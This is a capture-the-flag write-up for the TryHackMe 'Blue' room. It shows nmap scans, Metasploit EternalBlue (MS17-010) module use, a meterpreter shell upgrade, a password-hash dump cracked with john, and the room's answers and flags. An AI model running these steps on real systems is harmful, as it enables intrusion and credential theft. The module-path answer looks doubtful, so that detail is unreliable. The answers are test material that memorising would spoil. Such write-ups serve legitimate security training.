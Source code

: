 ```yaml
---
layout: post
title: Write-Up [THM] Blue
categories: [Write-Ups, TryHackMe]
tags: [TryHackMe, Windows, Eternal blue]
featured-image:  thm/blue/theme.png
featured-image-alt: Blue
---
```


It's a write-up about the room : [Try Hack Me - Room : Blue](https://tryhackme.com/room/blue)

# [Task 1] - Recon

![Task 1](/assets/img/thm/blue/task-1.png)

First, we deploy the instance.  
We scan the machine with the command : `nmap -sV MACHINE_IP`. 

	```
	PORT      STATE SERVICE            VERSION
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open  ssl/ms-wbt-server?
	49152/tcp open  msrpc              Microsoft Windows RPC
	49153/tcp open  msrpc              Microsoft Windows RPC
	49154/tcp open  msrpc              Microsoft Windows RPC
	49158/tcp open  msrpc              Microsoft Windows RPC
	49160/tcp open  msrpc              Microsoft Windows RPC
	Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
	```

* How many ports are open with a port number under 1000? `3`

* What is this machine vulnerable to?  
We run the command :  `nmap --script vuln MACHINE_IP` 
	
	```
	Host script results:
	|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
	|_smb-vuln-ms10-054: false
	|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
	| smb-vuln-ms17-010: 
	|   VULNERABLE:
	|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-0143
	|     Risk factor: HIGH
	|       A critical remote code execution vulnerability exists in Microsoft SMBv1
	|        servers (ms17-010).
	|           
	|     Disclosure date: 2017-03-14
	|     References:
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
	|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
	|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
	```

We find the vulnerability **ms17-010**.
	
# [Task 2] - Gain Access 

> Exploit the machine and gain a foothold.

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

We run the command : `use ms17-010` and obtain the result below :

```
	Matching Modules
	================
	
	   #  Name                                           Disclosure Date  Rank     Check  Description
	   -  ----                                           ---------------  ----     -----  -----------
	   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
	   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
	   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
	   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
	   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
	   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

So, the full path of the exploitation code is **exploit/windows/smb/ms17_010_eternalblue_win8**.  
After that, we exploit the vulnerability 3 : `use 3`

* Show options and set the one required value. What is the name of this value ?

We use `show options` on msfconcole and the required value is `RHOSTS`.

# [Task 3] - Escalate

> Escalate privileges, learn how to upgrade shells in metasploit.

On msfconsole we do : `use post/multi/manage/shell_to_meterpreter` and `set session 1`.
After, we do `sessions` and `sessions -i 2`.

# [Task 4] - Cracking

> Dump the non-default user's password and crack it!

In the meterpreter we use `hashdump` and find the name of the non-default user : **Jon**.

We use `john jon.hash --format=NT --wordlist=/opt/rockyou.txt`.   
After that, to see the passwaord we do : `john jon.hash --format=NT --show` and find **alqfna22**.

# [Task 5] - Find flags!

* Flag 1 ? 

In the meterpreter with `ls` we find the file `flag1.txt` and use `cat` to read it.  
The flag 1 is `access\_the\_machine`.

* Flag 2 ?

The file `flag2.txt` is hidden in `Windows/System/config`.  
The flag is `sam\_database\_elevated\_access`.

* Flag 3 ? 

This one is hidden in the file `flag3.txt` in the directory : `Users/Jon/Documents`.  
The flag is `admin\_documents\_can\_be\_valuable`.